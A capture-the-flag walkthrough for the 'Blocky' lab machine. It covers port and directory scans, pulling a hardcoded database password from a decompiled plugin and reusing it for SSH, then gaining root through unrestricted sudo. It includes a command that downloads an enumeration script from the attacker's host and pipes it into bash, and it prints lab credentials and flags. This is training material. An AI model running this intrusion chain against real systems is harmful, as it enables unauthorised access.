

# Blocky <!-- omit in toc -->

# Table of Contents <!-- omit in toc -->
- [Scan Results](#scan-results)
  - [Nmap](#nmap)
    - [**Ports**](#ports)
  - [Gobuster](#gobuster)
    - [**Directories**](#directories)
- [Recon](#recon)
    - [**Java Files**](#java-files)
    - [**phpMyAdmin**](#phpmyadmin)
- [Privilege Escalation](#privilege-escalation)
    - [**Sudo Exploit**](#sudo-exploit)
- [Flags](#flags)
    - [**User Flag**](#user-flag)
    - [**Root Flag**](#root-flag)

# Scan Results

## Nmap
```
# Nmap 7.80 scan initiated Sun Mar  1 15:14:00 2020 as: nmap -sC -sV -oA ./Scans/nmap 10.10.10.37
Nmap scan report for 10.10.10.37
Host is up (0.085s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar  1 15:14:18 2020 -- 1 IP address (1 host up) scanned in 18.22 seconds

```
### **Ports**
* 21 - FTP
* 22 - SSH
* 80 - HTTP
  
## Gobuster
install gobuster if you dont have it

```
apt-get install gobuster
```

and run it

```
root@kali:~# gobuster dir -u 10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.37
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/01 15:37:36 Starting gobuster
===============================================================
/wiki (Status: 301)
/wp-content (Status: 301)
/plugins (Status: 301)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/03/01 16:09:22 Finished
===============================================================
```

### **Directories**
* /wiki 
* /wp-content 
* /plugins 
* /wp-includes
* /javascript 
* /phpmyadmin

# Recon

### **Java Files**

Download files from /plugins folder and extract BlockyCore.jar using

```
jar xf ./BlockyCore.jar
```

Inside the "com" folder find BlockyCore.class file. This is a java class file, to see the code we need to decompile it. We can use an online [decompiler](http://www.javadecompilers.com/) or jd-gui. If you dont have _**jd-gui**_:

```
apt install jd-gui
```

Finally we get the following code:

```java
// 
// Decompiled by Procyon v0.5.36
// 

package com.myfirstplugin;

public class BlockyCore
{
    public String sqlHost;
    public String sqlUser;
    public String sqlPass;
    
    public BlockyCore() {
        this.sqlHost = "localhost";
        this.sqlUser = "root";
        this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
    }
    
    public void onServerStart() {
    }
    
    public void onServerStop() {
    }
    
    public void onPlayerJoin() {
        this.sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
    }
    
    public void sendMessage(final String username, final String message) {
    }
}
```

We get the password for the MySQL database

```
PhpMyAdmin:  
Username: root  
Password: 8YsqfCTnvxAUeduzjNSXe22
```

### **phpMyAdmin**

Go to the phpmyadmin page, and login as root. Click on Databses at the top left  


we can see a wordpress database:  

  

which includes wp_users table. Inside we can see the username and password for the wordpress website

  

```
WordPress:  
username: Notch  
Password: $P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/  
Email:    notch@blockcraftfake.com
```

The password is hashed so we cant use it like this. One option is to change it but this leads to nothing interesting. We do see however, that there is a user called Notch,Remember we found that ssh is open on this box? lets try it.  

SSH into the box as _**notch**_ and use the password for the mysql database _**8YsqfCTnvxAUeduzjNSXe22**_.  

We get shell as notch:



Listing the files, we see a _**user.txt**_ file which holds the user flag.


# Privilege Escalation
Now that we have a shell lets enumerate the box.  

Lets use [**_LinEnum_**](https://github.com/rebootuser/LinEnum) script. Change location to: _`opt/linux_privesc/LinEnum`_
and start a python simple http server on this folder 

```
python -m SimpleHTTPServer
```

back on the box we need to connect to our ip `10.10.14.17:8000`, get the file and send it to bash:

```
curl 10.10.14.17:8000/LinEnum.sh | bash
```

The script doesnt show anything special but there is a section called 
_**" [-] Accounts that have recentky used sudo: "**_
and we can see that notch has ran a sudo command.

which leads us to the next section.


### **Sudo Exploit**

_LinEnum_ doesnt show this because it requires us to type the password
Let see what sudo commands _notch_ can run:

```
sudo -l
```

Insert the password for _notch_, and we can see that we can run everything! so we can just 
```
sudo su
```
to get root on the box. change to the root directory and `cat` the flag.

# Flags

### **User Flag**
at the root directory of user notch we find the _**user.txt**_ file
which has the flag: _**59fee0977fb60b8a0bc6e41e751f3cd5**_

### **Root Flag**
at the root directory of user root we find the _**root.txt**_ file
which has the flag: _**0a9694a5b4d272c694679f7860f1cd5f**_
